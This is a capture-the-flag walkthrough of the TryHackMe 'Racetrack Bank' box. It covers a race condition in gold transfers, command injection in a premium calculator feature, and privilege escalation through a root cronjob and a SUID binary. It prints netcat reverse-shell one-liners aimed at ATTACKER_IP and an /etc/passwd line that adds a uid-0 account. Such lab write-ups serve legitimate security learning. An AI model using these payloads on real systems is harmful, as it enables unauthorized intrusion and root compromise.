This box is rated hard difficulty on THM. It involves us exploiting a race conditions to add gold to our account, allowing us to buy premium functions on the website. Using those to grab a reverse shell shows a clean up script that is being executed by a root cronjob, and replacing it grants us a root shell.

It's time for another heist.

## Scanning & Enumeration
As always, I begin with an Nmap scan against the given IP to find all running services on the host. I repeat this for UDP but nothing returns.

```
$ sudo nmap -p22,80 -sCV 10.65.162.227 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-30 18:31 CST
Nmap scan report for 10.65.162.227
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.82 seconds
```

There are just two ports open:
- SSH on port 22
- An nginx web server on port 80

We won't be able to do much on SSH without credentials so I head over to enumerate HTTP. Checking the landing page shows that of a typical banking service website. We have the ability to create accounts and there is a message warning that their servers are slow (hint hint).


Logging in shows that we have been granted a singular gold to spend. There are also functions to purchase premium features for 10,000 gold and give gold to another account. I'm guessing that the premium features will let us upload or change something on the site which may be great for our goal.



There's still one problem, we don't have enough gold to buy it. Luckily we have been given a coin and are able to create accounts to be able to give that to. One pretty clear vulnerability arises.

## Exploiting Race Condition
As the name of the box implies, we'll be testing for race condition vulnerabilities here; This is also very common in banking applications as the funds transfer process can be prone to this if no security measures are taken.

If you don't know what a race condition is, it's a type of vulnerability that occurs when the outcome of an operation depends on the timing or order of concurrent actions, allowing multiple processes to access or modify shared state inconsistently. So, in a security context, this can let an attacker (us) manipulate execution timing to produce unintended or unauthorized results.

Usually we would need to gain access over another user's account as normal app would start us with zero funds, however the bank has generously given us something to work with. 

To exploit this, I first make two accounts so we're able to send funds between the two. 



Then, I capture a request to send the gold to that second account, send that to the Repeater tab to add it to a group, and duplicate the request 30 times (you can duplicate it more but it could cause server overload issues).


Lastly, we need to send this group of requests in parallel by expanding the send option and selecting it. This will send almost everything in all packets, wait for them to line up correctly and then send the last byte to complete the process. In turn, this syncs up the requests to be sent extremely fast (not quite at the exact same time but within milliseconds, so the server can't tell them apart). 



After refreshing the second account to see if this exploit succeeded, I find that we now have 15 coins. Race conditions are almost always left up to chance as the server is the one making the error due to timing so half of the requests succeeding is very nice. Our target goal is 10,000 coins so we'll have to repeat this a few times whilst switching accounts, and increasing the amount to the maximum gold we are able to give.



## Initial Foothold
After that is taken care of, I buy the premium account package and start enumerating the available functions. There is a new tab which only contains a calculator, kind of a rip off if you ask me but this allows for equations to be executed by the server. 



I test for command injection with a few simple payloads like `whoami`, `/proc/self/environ`, and `sleep 5`, which returns a `504 Gateway Time-Out` error for all. Next, I supply a semicolon to see if we're able to add arbitrary commands to the query.



That returns the answer of 10, confirming we're able to append commands as well. This nginx web server is using the Express framework along with Node.js for the programming language, so I grab a payload from [revshells](https://www.revshells.com/) and replace the command with a mkfifo netcat reverse shell.

```
require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT >/tmp/f')
```

## Privilege Escalation
This gives us a shell on the box as the user brian. I upgrade the shell using the typical python pty method and have a look around for anything useful for our goal of escalating privileges.



There is a cleanup script under Brian's home dir which does removes a test file. This wouldn't be of any interest but it is owned by root user and sometimes scripts are scheduled to run to keep things automated.



I upload [pspy](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1) to the box using wget and find that there is a cronjob executing this script as root user every so often.



We don't have direct access to write to this script, but since we have generic privileges over the directory, it's possible to delete it outright and replace it with a new script containing a malicious command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP PORT>/tmp/f
```


## Post-Exploitation
There is a second way to grab root privileges on the box which is way cooler in my opinion. I'll go over how I exploited it to add a new user with root privs.

In the internal enumeration phase, I find a binary named manageaccounts with the SUID bit set under a folder in Brian's home directory. Running the strings utility on it to grab some info on what it does shows an option for 'f' that opens an account file.



Also by running the command, we can see that this binary is used as an API to manage accounts on the website. That 'f' option will read input to the binary and attempt to open an account.


So how do exploit this function to get elevated privileges? We know that by using the 'f' option, the process will spawn a named pipe to the `/tmp` directory for some reason and we're able to have the system read files that end with a .account extension. Since this binary is owned by root and has the SUID bit, if we get it to execute a shell or malicious command, we can do some dangerous things.

I start by creating a file named `cbev.account` under /tmp and testing to see if the binary will access it. It returns a message saying the file read was successful, but doesn't display print stdout. 



The real key to this exploit lies within the write changes function, as this will allow the binary to write anywhere it deems valid using the SUID (being root user). The named pipe got me thinking of how we can get this to write to a sensitive file like `/etc/passwd`.

To be able to do so, we need to load our malicious `.account` file into the binary, delete the file after it has been, then create a symbolic link from our loaded file to `/etc/passwd`, and finally write changes to the disk inside the binary's interface before quitting.

The binary only reads three lines from the loaded file so our `.account` one should contain something like:

```
f
brian::1000:1000:brian:/:/bin/sh
pwnd:$1$pwnd$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root:/bin/bash
```

Note: I had to add the line for our current account as it would overwrite the preexisting one and cause major problems switching between the two.

After doing so, we can check `/etc/passwd` to see if it succeeded and switch users to our new account to grab root privs. This works because most newer versions of Linux still allow us to write hashed passwords to `/etc/passwd` instead of `/etc/shadow` to add new accounts, and we specified the `uid/gid` to be 0 (matching root users).

That's all y'all, this box wasn't that difficult but I really liked it because of how rare race conditions are seen in the wild. I hope this was helpful to anyone following along or stuck and happy hacking!
